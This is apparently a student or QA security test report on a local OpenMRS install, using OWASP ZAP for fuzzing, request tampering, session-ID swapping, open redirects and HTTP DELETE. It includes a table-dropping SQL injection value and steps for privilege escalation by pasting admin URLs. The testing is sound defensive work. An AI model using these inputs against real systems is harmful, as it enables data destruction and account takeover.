	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at org.openmrs.ui.framework.UiFrameworkUtil.invokeMethodWithArguments(UiFrameworkUtil.java:112)
	at org.openmrs.ui.framework.UiFrameworkUtil.executeControllerMethod(UiFrameworkUtil.java:71)
	at org.openmrs.ui.framework.page.PageFactory.handleRequestWithController(PageFactory.java:219)
	at org.openmrs.ui.framework.page.PageFactory.processThisFragment(PageFactory.java:160)
	at org.openmrs.ui.framework.page.PageFactory.process(PageFactory.java:116)
	at org.openmrs.ui.framework.page.PageFactory.handle(PageFactory.java:86)
	at org.openmrs.module.uiframework.PageController.handlePath(PageController.java:116)
	at org.openmrs.module.uiframework.PageController.handleUrlWithDotPage(PageController.java:83)
	at sun.reflect.GeneratedMethodAccessor540.invoke(Unknown Source)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at org.springframework.web.bind.annotation.support.HandlerMethodInvoker.invokeHandlerMethod(HandlerMethodInvoker.java:177)
	at org.springframework.web.servlet.mvc.annotation.AnnotationMethodHandlerAdapter.invokeHandlerMethod(AnnotationMethodHandlerAdapter.java:446)
	at org.springframework.web.servlet.mvc.annotation.AnnotationMethodHandlerAdapter.handle(AnnotationMethodHandlerAdapter.java:434)
	at org.springframework.web.servlet.DispatcherServlet.doDispatch(DispatcherServlet.java:943)
	at org.springframework.web.servlet.DispatcherServlet.doService(DispatcherServlet.java:877)
	at org.springframework.web.servlet.FrameworkServlet.processRequest(FrameworkServlet.java:966)
	at org.springframework.web.servlet.FrameworkServlet.doPost(FrameworkServlet.java:868)
	at javax.servlet.http.HttpServlet.service(HttpServlet.java:647)
	at org.springframework.web.servlet.FrameworkServlet.service(FrameworkServlet.java:842)
	at javax.servlet.http.HttpServlet.service(HttpServlet.java:728)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:305)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:101)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:101)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.apache.catalina.core.ApplicationDispatcher.invoke(ApplicationDispatcher.java:749)
	at org.apache.catalina.core.ApplicationDispatcher.processRequest(ApplicationDispatcher.java:487)
	at org.apache.catalina.core.ApplicationDispatcher.doForward(ApplicationDispatcher.java:412)
	at org.apache.catalina.core.ApplicationDispatcher.forward(ApplicationDispatcher.java:339)
	at org.springframework.web.servlet.view.InternalResourceView.renderMergedOutputModel(InternalResourceView.java:168)
	at org.springframework.web.servlet.view.AbstractView.render(AbstractView.java:303)
	at org.springframework.web.servlet.DispatcherServlet.render(DispatcherServlet.java:1228)
	at org.springframework.web.servlet.DispatcherServlet.processDispatchResult(DispatcherServlet.java:1011)
	at org.springframework.web.servlet.DispatcherServlet.doDispatch(DispatcherServlet.java:955)
	at org.springframework.web.servlet.DispatcherServlet.doService(DispatcherServlet.java:877)
	at org.springframework.web.servlet.FrameworkServlet.processRequest(FrameworkServlet.java:966)
	at org.springframework.web.servlet.FrameworkServlet.doPost(FrameworkServlet.java:868)
	at javax.servlet.http.HttpServlet.service(HttpServlet.java:647)
	at org.springframework.web.servlet.FrameworkServlet.service(FrameworkServlet.java:842)
	at javax.servlet.http.HttpServlet.service(HttpServlet.java:728)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:305)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.openmrs.module.web.filter.ForcePasswordChangeFilter.doFilter(ForcePasswordChangeFilter.java:60)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.openmrs.web.filter.GZIPFilter.doFilterInternal(GZIPFilter.java:64)
	at org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:107)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.openmrs.module.web.filter.ModuleFilterChain.doFilter(ModuleFilterChain.java:72)
	at org.openmrs.module.owa.filter.OwaFilter.doFilter(OwaFilter.java:64)
	at org.openmrs.module.web.filter.ModuleFilterChain.doFilter(ModuleFilterChain.java:70)
	at org.openmrs.module.web.filter.ModuleFilter.doFilter(ModuleFilter.java:54)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.openmrs.web.filter.OpenmrsFilter.doFilterInternal(OpenmrsFilter.java:108)
	at org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:107)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.springframework.orm.hibernate4.support.OpenSessionInViewFilter.doFilterInternal(OpenSessionInViewFilter.java:150)
	at org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:107)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.openmrs.web.filter.StartupFilter.doFilter(StartupFilter.java:105)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.openmrs.web.filter.StartupFilter.doFilter(StartupFilter.java:105)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.openmrs.web.filter.StartupFilter.doFilter(StartupFilter.java:105)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.springframework.web.filter.CharacterEncodingFilter.doFilterInternal(CharacterEncodingFilter.java:88)
	at org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:107)
	at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:243)
	at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:210)
	at org.apache.catalina.core.StandardWrapperValve.invoke(StandardWrapperValve.java:222)
	at org.apache.catalina.core.StandardContextValve.invoke(StandardContextValve.java:123)
	at org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:502)
	at org.apache.catalina.core.StandardHostValve.invoke(StandardHostValve.java:171)
	at org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:100)
	at org.apache.catalina.core.StandardEngineValve.invoke(StandardEngineValve.java:118)
	at org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:409)
	at org.apache.coyote.http11.AbstractHttp11Processor.process(AbstractHttp11Processor.java:1044)
	at org.apache.coyote.AbstractProtocol$AbstractConnectionHandler.process(AbstractProtocol.java:607)
	at org.apache.tomcat.util.net.JIoEndpoint$SocketProcessor.run(JIoEndpoint.java:315)
	at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)
	at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)
	at java.lang.Thread.run(Thread.java:748)
</pre>

```

## Fuzz -4- LOGIN PAGE BUFFER OVER FLOW
### Priority : HIGH
### Test status : PASSED

### * Description
#### Name of module : OpenMRS login
+ Page location : http://localhost:8081/openmrs-standalone/login.htm
+ Fuzz string : username=admin&password=[fuzz data]&sessionLocation=2&redirectUrl=
+ Fuzz data : jbrofuzz pre-installed rules in OWASP scanner
Fuzzer will deploy 17 buffer overflow attack strings on the variable "password" in form of POST requests. Server HttpResponses will be analyzed and be decided if the attacks were successful or not.


### * Precondition
1. A local computer with administrator privilege
2. Java JRE installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unziped
4. OWASP ZAP Version 2.6.0 downloaded and installed

### * Dependencies
1. OpenMRS with demo database was loaded and runs normally
2. OWASP ZAP runs normally

### * Test Data
jbrofuzz rules came standard with OWASP Zap

### * Test steps
1. Open up OpenMRS V. 2.6.0 Standalone. Make sure Tomcat Port is 8081 and MySQL port is 3316. A web page starting with localhost:8081 will be automatically opened upon successful start.


2. Open OWASP Zap V2.6.0
3. From OWASP Zap, go to Toos > Launch the Zap JxBrowser
4. In the Zap JxBrowser, type "http://localhost:8081/openmrs-standalone/login.htm" (without the double quotes) into the address bar and hit Enter
5. Go to the main Zap window, on the left side bar, in "Sites" tab, under "Sites" sub section, you will now see "http://localhost:8081". Expand that until you see "GET:login.htm". If you don't see it, please go to the JzBrowser and make sure the login page is loaded. If the page is not loaded, you need to double check the OpenMRS to make sure it runs properly


6. Go back to the Zap JxBrowser and type a bogus pair of username/password (we use "admin" for username and "BBBBB" for password), select "Pharmacy" section and click login. When the page got reloaded with "Invalid username/password. Please try again", close JxBrowser window and get back to main Zap window


7. In zap window, if you see "POST:login.htm(password, redirectURL,sessionLocation,username)" on the left panel (the "Sites" panel) then you got it, if not, please repeat step 3 to 5
8. Select "POST:login.htm(password, redirectURL,sessionLocation,username)" from the left panel and select the "Request" tab on the right panel. The right panel will turn into 2 smaller panels. At the bottom one, you will see "username=admin&password=BBBBB&sessionLocation=2&redirectUrl="
9. Highlight the "BBBBB" part from the string you got in previous step, right click on it and choose "Fuzz". A Fuzzer window will be opened.


10. In the fuzzer window, click "Payloads..." button. A child window will be opened


11. In the child "Payloads" window, click "Add". An "Add payload" window will be opened
12. In "Add payload window, in the "Type" box, choose "File Fuzzers". Expand the "jbrofuzz" section. Check the box of "Buffer Overflow" and click "Add". The child window will be closed.


13. In Payloads window, click "OK" and you will be returned to the "Fuzzer" window. In this window, click "Start Fuzzer" button and you will be returned to the main Zap window with the "Fuzzer" tab selected
14. Observe the results in the "Fuzzer" tab, especially the "Code" and "Size Resp. Body". Check the HTTP response by selecting a fuzz entry, and select the "Response" tab in the uper right panel.


### * Expected results
+ OpenMRS should redirect invalid logins back to the login page.
+ System has to be able to fail securely.

### * Post-condition
OpenMRS should still be operating normally

### * Actual results
+ 17 fuzz were done on the "password" variable
+ All of the entries have 302 code and zero size of Response html body. Confirmed by inspection of html header, noticing that system redirects invalid login to previous page - the login page. 

### * NOTES:
In the future, we would create more fuzz cases with higher amount of characters

## 7- CLIENT BYPASS WITH OWASP PROXY
## Client Bypass -1- LOGIN PAGE INTEGER BUFFER OVER FLOW
### Priority : HIGH
### Test status : FAILED

### * Description
#### Name of module : OpenMRS login
+ Page location : http://localhost:8081/openmrs-standalone/login.htm
+ Attack type : Buffer overflow
+ Attack value : 99999999999999999999
In this test, we will interup browser requests and try to overflow the value of working "location".


### * Precondition
1. A local computer with administrator privilege
2. Java JRE installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unziped
4. OWASP ZAP Version 2.6.0 downloaded and installed

### * Dependencies
1. OpenMRS with demo database was loaded and runs normally
2. OWASP ZAP runs normally
3. OWASP Local Proxy was properly configured
4. Browser proxy setting was properly configured to be pointed to OWASP proxy

### * Test steps
1. Open up OpenMRS V. 2.6.0 Standalone. Make sure Tomcat Port is 8081 and MySQL port is 3316. A web page starting with localhost:8081 will be automatically opened upon successful start.


2. Open Google Chrome. In the browser, type "http://localhost:8081/openmrs-standalone/login.htm" (without the double quotes) into the address bar and hit Enter
3. Go to the main Zap window, on the left side bar, in "Sites" tab, under "Sites" sub section, you will now see "http://localhost:8081". Expand that until you see "GET:login.htm". If you don't see it, please go to the Chrome browser and make sure the login page is loaded. If the page is not loaded, you need to double check the OpenMRS to make sure it runs properly. If the page is loaded, you need to make sure proxy settings on both OpenMRS and Google Chrome were configured properly.


4. Go back to the Chrome and login with a pair of username/password (we use "admin" for username and "Admin123" for password), select "Pharmacy" section and click login. After successful login, you log out.
5. Repeat step 2 to 4 but with this URL "http://localhost:8081/openmrs-standalone/referenceapplication/login.page"

6. In zap window, if you see two important page staring with "POST:login.htm" and "POST:login.page" on the left panel (the "Sites" panel).


7. Select "POST:login.htm(password, redirectURL,sessionLocation,username)" from the left panel and select the "Break..." and then click "Save" and do the same for the page starts with "POST:login.page" under "referenceapplication" folder. 
8. The "Break Points" tab in the bottom pane should look like this


9. We now get back to our browser. Go to "Settings" > "Clear browsing data". Choose "Clear the following items from the beginning of time", check all the boxes and click "Clear browsing data"
10. Close "Settings" tab, and refresh the OpenMRS login page. Type in username: admin, and password: Admin123, choose "Pharmacy" location and click "Login"
10. You will not be able to login right away and OWASP Zap proxy may issue you an alert saying it is interupting the request. In such case, you can acknowledge the alert. Your screen should look similar to this


11. Notice that by the end of the header, we have a value set of "referenceapplication.lastSessionLocation=2" and in the POST request, we have "sessionLocation=2". Replace the number 2 with "99999999999999999999" (twenty 9s) and then click the "play" symbol right above the "request" tab


12. Click the "play" button several more times until the browser finishes loading the login page.


### * Expected results
+ OpenMRS should fail securely either by assigning user to a default location or gave a prompt that the location needs to be reselected.
+ Error should not reveal too much information about the system

### * Post-condition
OpenMRS should still be operating normally

### * Actual results


### * NOTES:
A very detailed stack trace was given which is a violation of "Fail securely" principle. Defaulting user to a default location should be a good way to mitigate this bug.

## Client Bypass -2- LOGIN PAGE SESSION HIJACK
### Priority : HIGH
### Test status : PASSED

### * Description
#### Name of module : OpenMRS login
+ Page location : http://localhost:8081/openmrs-standalone/login.htm
+ Attack type : Session hijacking
+ Attack value : the JSESSIONID value of a user's session
This attack will try to swith the sessions between a clerk with limitted privilege and an administrator. Action is simple and based on modification of http header value.

### * Precondition
1. A local computer with administrator privilege
2. Java JRE installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unziped
4. OWASP ZAP Version 2.6.0 downloaded and installed

### * Dependencies
1. OpenMRS with demo database was loaded and runs normally
2. OWASP ZAP runs normally
3. OWASP Local Proxy was properly configured
4. Browser proxy setting was properly configured to be pointed to OWASP proxy

### * Test steps
1. Open up OpenMRS V. 2.6.0 Standalone. Make sure Tomcat Port is 8081 and MySQL port is 3316. A web page starting with localhost:8081 will be automatically opened upon successful start.


2. Open Google Chrome. In the browser, type "http://localhost:8081/openmrs-standalone/login.htm" (without the double quotes) into the address bar and hit Enter
3. Go to the main Zap window, on the left side bar, in "Sites" tab, under "Sites" sub section, you will now see "http://localhost:8081". Expand that until you see "GET:login.htm". If you don't see it, please go to the Chrome browser and make sure the login page is loaded. If the page is not loaded, you need to double check the OpenMRS to make sure it runs properly. If the page is loaded, you need to make sure proxy settings on both OpenMRS and Google Chrome were configured properly.


4. Go back to the Chrome and login with a pair of username/password (we use "admin" for username and "Admin123" for password), select "Pharmacy" section and click login. After successful login, you log out.
5. Repeat step 2 to 4 but with this URL "http://localhost:8081/openmrs-standalone/referenceapplication/login.page"

6. In zap window, if you see two important page staring with "POST:login.htm" and "POST:login.page" on the left panel (the "Sites" panel).


7. Select "POST:login.htm(password, redirectURL,sessionLocation,username)" from the left panel and select the "Break..." and then click "Save" and do the same for the page starts with "POST:login.page" under "referenceapplication" folder. 
8. The "Break Points" tab in the bottom pane should look like this


9. We now get back to our browser. Go to "Settings" > "Clear browsing data". Choose "Clear the following items from the beginning of time", check all the boxes and click "Clear browsing data"
10. Close "Settings" tab, and refresh the OpenMRS login page. Type in username: admin, and password: Admin123, choose "Pharmacy" location and click "Login"
10. You will not be able to login right away and OWASP Zap proxy may issue you an alert saying it is interupting the request. In such case, you can acknowledge the alert. Your screen should look similar to this


11. Notice that by the end of the header, we have a value set of 
> Cookie: JSESSIONID=D1392D7F2D37E5208D57E0F677CBC686; referenceapplication.lastSessionLocation=2
Copy the value of JSESSIONID. Your value may be different and for our test at this time, that value is D1392D7F2D37E5208D57E0F677CBC686
12. Click the "play" button several more times until the browser finishes loading and you should be able to logged into the dashboard.
13. Keep the current browser window and open another Google Chrome browser window in ICOGNITO mode and go to the login page. You may have to click the play button several times for the page to load. Once the page is load, login with the clerk credential (Username: clerk, password: Clerk123) and location is "Registration Desk"
14. Notice that after you click "Login", you will be brought to OWASP Zap proxy and see something like this


15. Replace the current value of JSESSIONID (highlighted in the screenshot) with the value of the other JSESSIONID which is in our case, the value in step 11. Click the play button after you're done.
16. Click play two more times and you will see another header with the variable JSESSIONID again.


Replace it again with the value you recorded in step 11 and then click play button.
17. The server will refuse and force the original sessionID value of clerk. If we keep changing the clerk's sessionID to the admin's sessionID, we will run into step 16 and loop in it again and again. If we accept the server's value of sessionID, after clicking the play button, we will return back to the login page with no account logged in. Note that this is within the Icognito browser. Admin is still logged in in the regular browser
18. Close the incognito browser. Log out of admin account in the regular browser (once again, you may to click the play button several times to log out)

### * Expected results
+ OpenMRS should fail securely either by issuing an error message or redirecting user to login page
+ Error should not reveal too much information about the system

### * Post-condition
OpenMRS should still be operating normally

### * Actual results
System silently redirect user to login page without any error or announcement.

### * NOTES:
n/a

## Client Bypass -3- LOGIN PAGE REDIRECT
### Priority : HIGH
### Test status : FAILED

### * Description
#### Name of module : OpenMRS login
+ Page location : http://localhost:8081/openmrs-standalone/login.htm
+ Attack type : unauthorized redirect after login
+ Attack value : %2Fopenmrs-standalone%2Fappui%2Fheader%2Flogout.action%3FsuccessUrl%3Dopenmrs-standalone
In this test, we will redirect logged in user to a logout page, aiming for an illusion that user's credential was not correct. The exploit is simple yet can cause a massive confusion as well as effective denial of service


### * Precondition
1. A local computer with administrator privilege
2. Java JRE installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unziped
4. OWASP ZAP Version 2.6.0 downloaded and installed

### * Dependencies
1. OpenMRS with demo database was loaded and runs normally
2. OWASP ZAP runs normally
3. OWASP Local Proxy was properly configured
4. Browser proxy setting was properly configured to be pointed to OWASP proxy

### * Test steps
1. Open up OpenMRS V. 2.6.0 Standalone. Make sure Tomcat Port is 8081 and MySQL port is 3316. A web page starting with localhost:8081 will be automatically opened upon successful start.


2. Open Google Chrome. In the browser, type "http://localhost:8081/openmrs-standalone/login.htm" (without the double quotes) into the address bar and hit Enter
3. Go to the main Zap window, on the left side bar, in "Sites" tab, under "Sites" sub section, you will now see "http://localhost:8081". Expand that until you see "GET:login.htm". If you don't see it, please go to the Chrome browser and make sure the login page is loaded. If the page is not loaded, you need to double check the OpenMRS to make sure it runs properly. If the page is loaded, you need to make sure proxy settings on both OpenMRS and Google Chrome were configured properly.


4. Go back to the Chrome and login with a pair of username/password (we use "admin" for username and "Admin123" for password), select "Pharmacy" section and click login. After successful login, you log out.
5. Repeat step 2 to 4 but with this URL "http://localhost:8081/openmrs-standalone/referenceapplication/login.page"

6. In zap window, if you see two important page staring with "POST:login.htm" and "POST:login.page" on the left panel (the "Sites" panel).


7. Select "POST:login.htm(password, redirectURL,sessionLocation,username)" from the left panel and select the "Break..." and then click "Save" and do the same for the page starts with "POST:login.page" under "referenceapplication" folder. 
8. The "Break Points" tab in the bottom pane should look like this


9. We now get back to our browser. Go to "Settings" > "Clear browsing data". Choose "Clear the following items from the beginning of time", check all the boxes and click "Clear browsing data"
10. Close "Settings" tab, and refresh the OpenMRS login page. Type in username: admin, and password: Admin123, choose "Pharmacy" location and click "Login"
10. You will not be able to login right away and OWASP Zap proxy may issue you an alert saying it is interupting the request. In such case, you can acknowledge the alert. Your screen should look similar to this


11. Notice that in the request body, there is a variable "redirectUrl" (the highlighted section). We will replace the value of that variable with "%2Fopenmrs-standalone%2Fappui%2Fheader%2Flogout.action%3FsuccessUrl%3Dopenmrs-standalone" (no double quotes) and then click the "play" symbol right above the "request" tab

12. Click the "play" button several more times until the browser finishes loading and we will find that we are at the login page (as if our login credential used was not correct)


### * Expected results
+ OpenMRS should recognize the erronous flow and correct it by defaulting it to a page other than the logout page and still log user in correctly.

### * Post-condition
OpenMRS should still be operating normally

### * Actual results

User was returned to the login page as if the login credential was not correct

### * NOTES:
n/a

## Client Bypass -4- LOGIN PAGE DELETTE
### Priority : HIGH
### Test status : FAILED

### * Description
#### Name of module : OpenMRS login
+ Page location : http://localhost:8081/openmrs-standalone/login.htm
+ Attack type : HTTP Method exploit
+ Attack value : DELETE http://localhost:8081/openmrs-standalone/login.htm HTTP/1.1
In this test, we will use the DELETE http method to try to delete the login page from the server.


### * Precondition
1. A local computer with administrator privilege
2. Java JRE installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unziped
4. OWASP ZAP Version 2.6.0 downloaded and installed

### * Dependencies
1. OpenMRS with demo database was loaded and runs normally
2. OWASP ZAP runs normally
3. OWASP Local Proxy was properly configured
4. Browser proxy setting was properly configured to be pointed to OWASP proxy

### * Test steps
1. Open up OpenMRS V. 2.6.0 Standalone. Make sure Tomcat Port is 8081 and MySQL port is 3316. A web page starting with localhost:8081 will be automatically opened upon successful start.


2. Open Google Chrome. In the browser, type "http://localhost:8081/openmrs-standalone/login.htm" (without the double quotes) into the address bar and hit Enter
3. Go to the main Zap window, on the left side bar, in "Sites" tab, under "Sites" sub section, you will now see "http://localhost:8081". Expand that until you see "GET:login.htm". If you don't see it, please go to the Chrome browser and make sure the login page is loaded. If the page is not loaded, you need to double check the OpenMRS to make sure it runs properly. If the page is loaded, you need to make sure proxy settings on both OpenMRS and Google Chrome were configured properly.


4. Go back to the Chrome and login with a pair of username/password (we use "admin" for username and "Admin123" for password), select "Pharmacy" section and click login. After successful login, you log out.
5. Repeat step 2 to 4 but with this URL "http://localhost:8081/openmrs-standalone/referenceapplication/login.page"

6. In zap window, if you see two important page staring with "POST:login.htm" and "POST:login.page" on the left panel (the "Sites" panel).


7. Select "POST:login.htm(password, redirectURL,sessionLocation,username)" from the left panel and select the "Break..." and then click "Save" and do the same for the page starts with "POST:login.page" under "referenceapplication" folder. 
8. The "Break Points" tab in the bottom pane should look like this


9. We now get back to our browser. Go to "Settings" > "Clear browsing data". Choose "Clear the following items from the beginning of time", check all the boxes and click "Clear browsing data"
10. Close "Settings" tab, and refresh the OpenMRS login page. Type in username: admin, and password: Admin123, choose "Pharmacy" location and click "Login"
10. You will not be able to login right away and OWASP Zap proxy may issue you an alert saying it is interupting the request. In such case, you can acknowledge the alert. Your screen should look similar to this


11. In the HTML header, replace "POST" by "DELETE"


12. Click the "play" button several more times until the browser finishes loading the page.


### * Expected results
+ OpenMRS should fail securely either by denying the request and redirect user to the login page again.
+ Error message (if any) should not reveal too much information about the system.
+ Login page should not be deleted

### * Post-condition
OpenMRS should still be operating normally

### * Actual results


Login page is still intacted (verified by visiting the login page)

### * NOTES:
A very detailed stack trace was given which is a violation of "Fail securely" principle. Defaulting user to a default location should be a good way to mitigate this bug.

## Client Bypass -4- SQL INJECTION
### Priority : HIGH
### Test status : PASSED


### * Description
#### Name of module : OpenMRS login
+ Page location : http://localhost:8081/openmrs-standalone/login.htm
+ Attack type : SQL Injection
+ Attack value : %3B%20drop%20table%20patient%20--
In this test, we will use SQL injection method to try to remove the Patient table in the data base.


### * Precondition
1. A local computer with administrator privilege
2. Java JRE installed
3. OpenMRS Standalone Version 2.6.0 downloaded and unziped
4. OWASP ZAP Version 2.6.0 downloaded and installed

### * Dependencies
1. OpenMRS with demo database was loaded and runs normally
2. OWASP ZAP runs normally
3. OWASP Local Proxy was properly configured
4. Browser proxy setting was properly configured to be pointed to OWASP proxy

### * Test steps
1. Open up OpenMRS V. 2.6.0 Standalone. Make sure Tomcat Port is 8081 and MySQL port is 3316. A web page starting with localhost:8081 will be automatically opened upon successful start.


2. Open Google Chrome. In the browser, type "http://localhost:8081/openmrs-standalone/login.htm" (without the double quotes) into the address bar and hit Enter
3. Go to the main Zap window, on the left side bar, in "Sites" tab, under "Sites" sub section, you will now see "http://localhost:8081". Expand that until you see "GET:login.htm". If you don't see it, please go to the Chrome browser and make sure the login page is loaded. If the page is not loaded, you need to double check the OpenMRS to make sure it runs properly. If the page is loaded, you need to make sure proxy settings on both OpenMRS and Google Chrome were configured properly.


4. Go back to the Chrome and login with a pair of username/password (we use "admin" for username and "Admin123" for password), select "Pharmacy" section and click login. After successful login, you log out.
5. Repeat step 2 to 4 but with this URL "http://localhost:8081/openmrs-standalone/referenceapplication/login.page"

6. In zap window, if you see two important page staring with "POST:login.htm" and "POST:login.page" on the left panel (the "Sites" panel).


7. Select "POST:login.htm(password, redirectURL,sessionLocation,username)" from the left panel and select the "Break..." and then click "Save" and do the same for the page starts with "POST:login.page" under "referenceapplication" folder. 
8. The "Break Points" tab in the bottom pane should look like this


9. We now get back to our browser. Go to "Settings" > "Clear browsing data". Choose "Clear the following items from the beginning of time", check all the boxes and click "Clear browsing data"
10. Close "Settings" tab, and refresh the OpenMRS login page. Type in username: admin, and password: Admin123, choose "Pharmacy" location and click "Login"
10. You will not be able to login right away and OWASP Zap proxy may issue you an alert saying it is interupting the request. In such case, you can acknowledge the alert. Your screen should look similar to this


11. In the HTML request, paste "%3B%20drop%20table%20patient%20--" right after "admin" as shown


12. Click the "play" button several more times until the browser finishes loading the page.


### * Expected results
+ OpenMRS should fail securely either by denying the request and redirect user to the login page again.
+ Error message (if any) should not reveal too much information about the system.
+ Patient table should not be deleted

### * Post-condition
OpenMRS should still be operating normally

### * Actual results

+ System denied login and redirected user back to the login page with a standard "Invalid login" message.
+ Patient table is intact and verifiable by logging into the system as admin, find patient record, input "Smith" in the search box and 5 patient entries will show up.


### * NOTES:
n/a

***

## 8- RECOMMENDED SECURITY REQUIREMENTS

### SecReq01
Module:Manage Service Types

Requirements: Prevent the sysadmin from register a new service type which is the same as existing one. If the sysadmin register a existing one, the system should not register and generator some warning message.

Result: Pass


### SecReq02
Module:Manage Service Types

Requirements: Prevent or remind the sysadmin from register a new service type which can last a extremely long time, e.g. 100000 min. It is meaningless for such a long time. If the sysadmin register a service type which last extremely long, the system should either remind the sysadmin “Do you want to register a 100000 min duration service type?” or just prevent the sysadmin and remind him “ you can not register a so long duration service type.”

Result: Failed. The duration for 100000 min is created successfully.


### SecReq03
Module:Manage Service Types

Requirements: The admin must can not change some service type to some existing service type.If the admin try to change some different service type, the system should prevent this behavior and warn the admin.

Result: Pass


### SecReq04
Module:Manage Service Types

Requirements: The system should recognize different service type by the duration. If the differences of the two service type is time duration, that should be ok. Thus the system should allow the admin to register such a service type.

Result: Failed There isn't a service type Dermatology and duration 20min. It should be created.


### SecReq05
Module:Manage Service Types

Requirements: The system should only give the previlege to the admin to delete the service types. Especially if someone else try to delete the service type, the logging file should write down who did this without the system's preventing.

Result: Failed. The system allowed a clerk to delte the service type and logging file write the operation as an admin did.


### SecReq06
Module:Register a patient

Requirement: The system should validate the input for every field of the text. Especially for testing whether the input is malicious. If a user registerd with name in url format, the system should generate error message. Because this could cause XML injections or XSS Scripts.

Result: Failed


### SecReq07
Module: Register a patient

Requirement: The application should validate the birth of date of the patient. If the user provide a invalid date of birth, the system should prevent that and generate a warning message. This validation aims at to valid the patient's information to avoid fake information.

Result: Pass


### SecReq08
Module: Register a patient

Requirement: The system should authenticate the user when editing and saving the patient information. 
If the user has the previlege to do such things, there should be some log file to trace what the user did. These information should include userid, operation and timestamp at least. Then the new or changed data should be saved into the database. If user has no privilege to save the data, he should be redirected to an error page stating the error.

Result: Pass


### SecReq09
Module:Register a patient

Requirement: The system should authorize the user's previlege every time when a user want to access a webpage. Especially when a user copy the url and try to access the webpage. If the user has the previlege, it is ok. If not, which means the user belongs to lower level of previlege, the system should prevent the user from accessing the webpage and generate a error page message. E.g. If user belongs to a lower privilege level and attempts to access higher privilege pages, for e.g. http://localhost:8082/openmrs-standalone/registrationapp/registerPatient.page?appId=referenceapplication.registrationapp.registerPatient 
the user should be redirected to error page.

Result: Failed. The nurse does not have the privilege to register a patient.


### SecReq10
Module:Register a patient

Requirement: The system should recognize there is already a patient which is similar to the one which is currently registering. If there is a patient who has the same first name and family name, the system should generate a remind message to avoid duplicate registering. This can avoid to generate too much useless record in the database.

Result: Pass


## 9- EVALUATING DESIGN PRINCIPLE COMPLIANCE

### ADP01
Least Privilege : A subject (user/other system) should be given only those privileges it needs to complete its task.

Test Step:
* Step 1: Log in as System admin(sysadmin).
* Step 2: Then enter Appointment Scheduling and click Manage Service Types.
* Step 3: Click New Service Type then copy the url.http://localhost:8082/openmrs-standalone/appointmentschedulingui/appointmentType.page
* Step 4: Log out and Log in as an clerk.
* Step 5: Paste the url and then you will find you can manage the service type as a clerk.

Result: Failed. As we can see, the privilege of a clerk only include manage appointments, daily appointments and appointments required. Service type is not a function that the clerk can manage.

Solution: The system should manage the access control using something like Role Based Access Control instead of url access. The system should check the role on both client and server side.


### ADP02
Don’t allow modification or access without a trace : Users should not be able to add, edit or delete data without the action being logged. Moreover, the log file should log who takes the action.

Test Step:
* Step 1: Log in as admin(admin).
* Step 2: Then click Find Patient Record.
* Step 3: Click on an existing Patient Record.
* Step 4: Delete this patient.
* Step 5: Check if there are log files which has monitored who delete this patient.

